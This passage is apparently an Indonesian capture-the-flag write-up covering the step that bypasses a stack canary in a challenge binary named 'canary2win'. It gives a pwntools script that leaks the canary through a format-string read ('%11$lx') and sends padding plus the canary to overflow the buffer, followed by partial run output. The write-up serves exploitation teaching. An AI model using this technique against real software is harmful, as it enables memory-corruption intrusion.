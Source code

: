 **3. Bypass Canary**

Setelah kita dapat stack canary, kita dapat bypass stack canary. Caranya adalah dengan mengirimkan payload dengan pola sebagai berikut:
```
payload = padding + canary + ...rest of the code
```
Untuk memeriksa apakah sukses bypass canary, kita kirimkan sebuah karakter setelah canary:
```
payload = padding + canary + 'A'
```
Mari kita modifikasi kode:
```
import pwn

#buat local connection
with pwn.process("./chall") as c:

#buat remote connection
# with pwn.remote("34.101.174.85",10002) as c:
   #dapetin stack canary-nya
   #tunggu prompt
   print(c.recvuntil("> "))
   #kirim payload
   c.sendline("%11$lx") #cek pake gdb
   #lihat responsenya
   canary_stack = c.recvline().strip().decode()
   print(canary_stack)

   #parse canary
   canary = bytes.fromhex(canary_stack)

   #tunggu prompt lagi
   print(c.recvuntil("> "))
   #kirim payload
   #payload canary
   payload_canary = pwn.p64(int.from_bytes(canary,"big"))
   print("Payload Canary: ",payload_canary)
   c.sendline(b'A'* 40 + payload_canary + b"A")
   #lihat responsenya
   response = c.recvline()
   print(response)
```
Pemrosesan canary adalah sebagai berikut:
1. Canary yang sudah di-_strip_ dan di-_decode_ akan dikonversi menjadi array of bytes.
2. Tunggu prompt input muncul lagi.
3. Konversikan array of bytes menjadi integer. Karena kita menerima data via internet/terminal, encoding yang dipakai adalah **big endian**. Oleh karena itu, tambahkan keterangan encoding ```"big"```.
4. Integer ini lalu dijadikan inputnke fungsi ```p64()```. Fungsi ini akan menghasilkan array of bytes dengan padding di depannya agar pas 8 bytes.

Setelah diproses, konkatenasi payload yang sudah dirancang dan lihat resposnya. Ayo kita coba!
```
[+] Starting local process './chall': pid 50899
XXX/canary2win.py:46: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(c.recvuntil("> "))
b'\ncanary2win e youkoso~ input wo joudai >//<\n> '
XXX/canary2win.py:48: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  c.sendline("%11$lx") #cek pake gdb
3fe36ad67ec5a500
XXX/canary2win.py:57: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(c.recvuntil("> "))
```